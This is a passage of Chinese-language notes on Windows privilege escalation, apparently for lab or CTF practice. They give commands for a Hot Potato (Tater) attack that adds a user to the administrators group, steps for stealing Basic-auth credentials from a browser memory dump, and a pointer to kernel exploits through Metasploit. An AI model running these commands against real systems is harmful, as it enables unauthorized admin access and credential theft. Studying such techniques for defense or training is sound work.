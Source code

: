 ```

1. 调出powershell
> powershell.exe -nop -ep bypass

2. 引入热土豆模块(脚本在[这里](https://github.com/Kevin-Robertson/Tater))
> Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1

3. 执行自定义命令。把当前账号提权到管理员组
>  Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"

4. 查看
> net localgroup administrators


# 10.配置文件里的密码（Password Mining Escalation - Configuration Files）

就是查找靶机里存有密码的配置文件，有些可能是明文，有些可能被加密了。


# 11.内存文件里的密码

## 如何利用

kali端：
首先用MSF开启一个监听
> msfconsole

> use auxiliary/server/capture/http_basic

> set uripath x

>  run

此时生成一个http监听：```http://10.13.21.169/x```

靶机：

1. 访问上面的监听地址。

2. 打开任务管理器
> taskmgr

3. 导出dumo file(Create Dump File)

4. 把导出来的文件传回kali

kali端：

1. 用strings命令查看导出来的dump file,搜索Authorization: Basic
> strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"

2. base64解密
> echo -ne [Base64 String] | base64 -d


# 12.内核提权（Kernel Exploits）

1. 利用MSF里面的``` post/multi/recon/local_exploit_suggester```模块

2. 自己编译提权脚本传到靶机执行。

注意，内核提权有可能会损伤系统造成不可修复的破坏，在真实环境中应该作为最后谨慎使用的手段。
